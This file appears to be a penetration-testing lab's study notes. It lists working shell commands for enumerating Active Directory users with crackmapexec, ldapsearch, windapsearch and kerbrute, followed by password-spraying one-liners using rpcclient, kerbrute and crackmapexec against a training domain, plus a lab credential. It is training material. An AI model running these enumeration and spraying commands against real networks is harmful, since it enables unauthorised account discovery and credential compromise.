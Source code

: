 ```Shell
crackmapexec smb 172.16.5.5 --users
```
Enumerates users on crackmapexec. May also show last time they attempted an unsuccessful password. 
#usernames #smb #crackmapexec  ^946e52

```Shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```
Uses ldapsearch to discover users in a target Windows doman, then filters the output using grep to show only the sAMAccountName from a Linux-based host. #ldap #usernames  ^420b4e

```Shell
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host.
#usernames #windapsearch ^d15dcb

```Shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
Username enumeration with Kerbrute tool and jsmith.txt wordlist. 
#kerbrute #usernames  ^0bd10c

```Shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt | grep USERNAME: | cut -f8 -d" " | cut -f9 -d" "
```
Username enumeration with Kerbrute tool and jsmith.txt wordlist. Includes filter to only display the usernames.
#kerbrute #usernames  ^49ed22

```Shell
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
Username enumeration with crackmapexec from a credentialed account.
#crackmapexec #usernames  ^5401c4


### Password Spraying - Linux

```Shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
Bash 1-liner password spraying attack w/ RPC against targeted domain.
#rpcclient #passwordattacks #passwordspraying  ^559b1d

```Shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
```
Password spraying attack with Kerbrute.
#kerbrute #passwordattacks #passwordspraying  ^f6277b

```Shell
crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
Password spraying attack w/ CrackMapExec. "+" ensures only valid credentials are displayed.
#crackmapexec #passwordattacks #passwordspraying  ^bc94f9

